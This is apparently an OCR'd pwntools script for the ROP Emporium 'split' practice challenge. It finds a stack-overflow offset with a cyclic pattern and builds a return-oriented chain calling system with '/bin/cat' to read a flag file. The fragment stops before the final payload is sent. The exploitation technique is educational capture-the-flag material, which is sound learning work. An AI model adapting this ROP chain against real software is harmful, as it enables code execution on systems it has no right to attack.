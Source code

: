 ```python
# Set up pwntools for the correct architecture
exe = './split'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)
# Enable verbose logging so we can see exactly what is being sent (info/debug)
context.log_level = 'info'
# Delete core files after finished
context.delete_corefiles = True

# ===========================================================
#                    EXPLOIT GOES HERE
# ===========================================================

io = start()

# Locate the functions/strings we need
pop_rdi_gadget = ROP(elf).find_gadget(["pop rdi", "ret"])[0]
# ropper -f split --search "pop rdi; ret;"
# pop_rdi_gadget = 0x4007c3
bincat_addr = next(elf.search(b'/bin/cat'))
system_addr = elf.symbols['system']

# Print out the target address
info("%#x pop rdi; ret;", pop_rdi_gadget)
info("%#x /bin/cat", bincat_addr)
info("%#x system", system_addr)

# We will send a 'cyclic' pattern which overwrites the return address on the stack
payload = cyclic(100)

# PWN
io.sendlineafter('>', payload)

# Wait for the process to crash
io.wait()

# Open up the corefile
core = io.corefile

# Print out the address of RSP at the time of crashing (SP for ARM)
stack = core.rsp
info("%#x stack", stack)

# Read four bytes from RSP, which will be some of our cyclic data.
# With this snippet of the pattern, we know the exact offset from
# the beginning of our controlled data to the return address.
pattern = core.read(stack, 4)
offset = cyclic_find(pattern)
info("%r pattern (offset: %r)", pattern, offset)

# ====================
# Now we know the offset from the beginning of our controlled data.
# ====================

# Craft a new payload which puts system('/bin/cat flag.txt') at correct offset
# Note that we have to call pop_rdi gadget here
payload = flat(
    asm('nop') * offset,
    pop_rdi_gadget,
    bincat_addr,
    system_addr
)

```